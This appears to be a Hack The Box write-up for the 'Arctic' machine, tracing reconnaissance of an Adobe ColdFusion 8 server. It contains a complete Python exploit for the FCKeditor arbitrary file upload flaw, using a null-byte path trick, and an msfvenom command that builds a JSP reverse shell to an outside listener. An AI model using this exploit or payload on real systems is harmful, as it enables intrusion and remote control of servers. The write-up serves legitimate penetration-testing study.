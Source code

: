 # [Arctic](https://app.hackthebox.eu/machines/9) 

Start off with a quick `nmap`:

![nmap](./arctic/nmap.png)

What is the `fmtp` service on port 8500? Check `searchsploit`:

![searchsploit](./arctic/searchsploit.png)

No luck... Lets try connecting to it raw:

![wget](./arctic/wget.png)

Okay, so this service is a webserver of sorts? Here is `index.html`:

```html
<html>
<head>
<title>Index of /</title></head><body bgcolor="#ffffff">
<h1>Index of /</h1><br><hr><pre><a href="CFIDE/">CFIDE/</a>               <i>dir</i>   03/22/17 08:52 μμ
<a href="cfdocs/">cfdocs/</a>              <i>dir</i>   03/22/17 08:55 μμ
</pre><hr></html>
```

Here is what we get:

![index](./arctic/index.png)

inside `CFIDE` and `cfdocs`:

![cfide](./arctic/cfide.png)

![cfdocs](./arctic/cfdocs.png)

The folder `administrator` under `CFIDE` is interesting... Browsing to that page gives the following:

![administrator](./arctic/administrator.png)

So this application is Adobe Cold Fusion version 8? Lets try `searchsploit` again...

![searchsploit2](./arctic/searchsploit2.png)

Lets check out this arbitrary file upload and execution exploit for ColdFusion 8.0.1 at https://www.exploit-db.com/exploits/16788:

![exploitdb](./arctic/exploitdb.png)

According to exploitDB, there is a nice Metasploit module for this... lets write it in Python:

```python
import sys
import requests

UPLOAD_PATH = '/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm'
TRIGGER_PATH = '/userfiles/file/'

if sys.version_info.major != 3:
    print('requires Python3')
    exit(-1)

if len(sys.argv) != 4:
    print(f'usage: python3 {sys.argv[0]} <ip> <port> <file>')
    exit(-1)

# upload payload
TARGET = f'http://{sys.argv[1]}:{sys.argv[2]}{UPLOAD_PATH}'
print(f'[*] uploading {sys.argv[3]} to {TARGET} ...')
r = requests.post(TARGET, 
                  files={
                      'newfile': (
                          sys.argv[3].replace('.jsp', '.txt'), 
                          open(sys.argv[3], 'rb'), 
                          'application/x-java-archive'
                      )
                  }, 
                  params={
                      'Command': 'FileUpload', 
                      'Type': 'File', 
                      'CurrentFolder': f'/{sys.argv[3]}\x00'
                  })
if (r.status_code != requests.codes.ok) or ('OnUploadCompleted' not in r.text):
    print('[-] ERROR')
    print(r.text)
    exit(-1)
print('[+] DONE')

# trigger payload
TARGET = f"http://{sys.argv[1]}:{sys.argv[2]}{TRIGGER_PATH}{sys.argv[3]}"
print(f'[*] triggering payload at {TARGET} ...')
r = requests.get(TARGET)
if r.status_code != requests.codes.ok:
    print('[-] ERROR')
    print(r.text)
    exit(-1)
print('[+] DONE')
```

Next we need a JSP payload (https://netsec.ws/?p=331):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=6969 -f raw > 5678.jsp
```

And then we execute it:

![exploit](./arctic/exploit.png)

And that gives us our user shell! Lets get that flag:

![user](./arctic/user.png)

